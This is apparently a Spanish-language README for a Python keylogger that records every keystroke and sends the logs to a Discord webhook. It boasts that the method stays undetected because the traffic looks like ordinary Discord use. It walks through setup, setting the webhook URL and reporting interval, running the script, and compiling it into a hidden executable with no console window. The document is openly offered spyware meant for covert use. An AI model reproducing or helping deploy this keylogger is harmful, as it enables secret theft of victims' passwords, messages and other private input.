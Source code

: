 
# Keylogger que reporta a Discord #

Este script de python capturara todas las teclas apretadas durante una ventana de tiempo predefinida y las reportara a un servidor de Discord por medio de Webhooks. a diferencia de los metodos tradicionales como "Guardar en un txt" o "Enviar a un email", este metodo permanece indetectado ya que los request de webhook son considerados trafico normal de Discord.


## Deployment

Tener Python instalado en su maquina, descargar el lenguaje desde [aqui](https://www.python.org/downloads/).


## Instalar librerias requeridas
```
python -m pip install -r requirements.txt
```

## Crear un servidor de Discord

Puedes usar [este](https://support.discord.com/hc/en-us/articles/204849977-How-do-I-create-a-server-) articulo para ver como hacerlo.

## Crear un Discord Webhook

Ingresa a la configuracion del servidor y selecciona Intergrations >>  Webhooks y crear un nuevo Webhook, se lo puede customizar y darle un nombre y un icono. Es necesario copiar al URL del webhook.

![screenshot](https://i.imgur.com/i084ESb.png)

## Editar keylogger.py

Ahora que poseemos el webhook podemos editar el script en python. Debemos añadir la url al archivo y asegurarnos de colocar el timeframe en el cual deseamos que el kelogger haga los reportes. 

```Python
import keyboard,os
from threading import Timer
from datetime import datetime
from discord_webhook import DiscordWebhook, DiscordEmbed

SEND_REPORT_EVERY = "TIEMPO_EN_SEGUNDOS_ACA"
WEBHOOK = "URL_DEL_WEBHOOK_ACA"
```

## Ejecutar el script

Una vez hecho eso, podremos ejecutar el script correctamente.
Para ejecutar el script solo debemos colocar esto en la terminal:
```
python keylogger.py
```
si todo sale bien deberiamos ver el reporte en discord despues de esperar el tiempo establecido.
![c2](https://imgur.com/MxKQE7n.png)

## Compilar el script

Para convertir el archivo en un ejecutable necesitaremos la libreria  pyinstaller que fue incluida en el archivo requirements.txt.
```
pyinstaller keylogger.py --onefile --noconsole
```

